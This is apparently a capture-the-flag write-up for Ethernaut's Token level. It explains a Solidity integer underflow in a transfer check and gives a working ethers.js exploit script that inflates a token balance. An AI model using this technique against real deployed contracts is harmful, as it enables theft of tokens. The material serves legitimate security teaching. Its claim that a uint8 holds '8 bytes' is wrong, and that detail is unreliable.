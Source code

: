 ```yaml
---
description: >-
  In Ethernaut's Token, we have our assumptions about unsigned integers
  challenged.
---
```


# 5 - Token

In [this level](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE) we are given 20 tokens and tasked with obtaining more.

### Hints

<details>

<summary>Hint One</summary>

The thing to keep in mind about this level is you're being asked to transfer more tokens than you actually have. Where, exactly, in the contract code is this being prevented and how?

</details>

<details>

<summary>Hint Two</summary>

How does a car’s odometer handle you driving one more mile than it can display? How might the version of Solidity the challenge contract is compiled with handle an operation that results in a **negative** unsigned integer? Are there limits to how big or small a value can be contained in a uint type variable?

</details>

### Full Walkthrough

The contract's `transfer` function requires that the requested amount of tokens to transfer is not greater than the total balance of the message sender's account. This check, however, has been  implemented in an unsafe way.&#x20;

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

In Solidity versions prior to 0.8.0, `uint` types were susceptible to **overflow** and **underflow**. This means that when their value was incremented or decremented outside the bounds of what their size could contain, the value would simply roll over or roll under, like an odometer.

{% hint style="info" %}
**Overflow and Underflow**

In integer overflow, once an unsigned integer reaches its maximum byte size, the next element added will return the first variable element. For example, a `uint8` can hold 8 bytes of data, meaning it can store any number between 0 and 255. If a `uint8` has the value of 255 and 1 is added to it, it will _overflow_ to 0.

Underflow is just the opposite, if a `uint8` has the value of 0 and 1 is subtracted from it, it will _underflow_ to 255.
{% endhint %}

Because the require statement subtracts `_value` from `balances[msg.sender]`, if we simply supply a value that is greater than the balance, the result of the subtraction will underflow, in this case to 2\*\*256 - 1. We just need to transfer this value to any address other than our own and our account balance becomes the result of the underflow, an enormous number of tokens!&#x20;

### Scripted Solution

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const {
    playerWallet,
    contract: tokenContract,
  } = await setup('Token')

  // Get player address initial balance
  const playerAddressBalance = await tokenContract.balanceOf(
    playerWallet.address
  )
  console.log(`Player address initial balance: ${playerAddressBalance}.`)

  // Transfer balance + 1 tokens to a random wallet
  const tokensToTransfer = Number(playerAddressBalance) + 1
  console.log(`Transferring ${tokensToTransfer} tokens to player address...`)
  await tokenContract.transfer(process.env.RANDOM_ADDRESS, tokensToTransfer)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* In older versions of Solidity, **uint** types were vulnerable to value **overflow** and **underflow**.
